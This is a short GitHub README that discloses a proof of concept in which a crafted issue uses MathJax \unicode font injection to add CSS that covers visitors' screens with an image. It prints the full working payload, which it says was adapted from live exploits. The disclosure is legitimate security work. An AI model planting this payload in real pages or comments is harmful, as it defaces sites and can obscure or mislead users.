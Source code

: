 # GithubFullscreenIssuePoC

This repo is to demonstrate an issue with Github that covers the users screen with an image / gif when they visit a custom crafted issue / user profile.

Issue Link / PoC: [Here](https://github.com/Reelix/GithubFullscreenIssuePoC/issues/1)  

Fullscreen Repo Demo: [Here](https://github.com/Reelix/GithubFullscreenIssuePoC2)

Note: Issue as been closed and locked due to abuse by third-party users.  

Issue Source (May contain needless markup - PoC was taken and modified from live exploits):

```
Test

$$\ce{$\unicode[goombafont; color:red; pointer-events: none; z-index: 5; position: fixed; inset: 0; opacity: 100%; background-size: 100% 100%; background-image: url('https://raw.githubusercontent.com/Reelix/GithubFullscreenIssuePoC/main/Github-Logo.png');]{x0000}$}$$
```
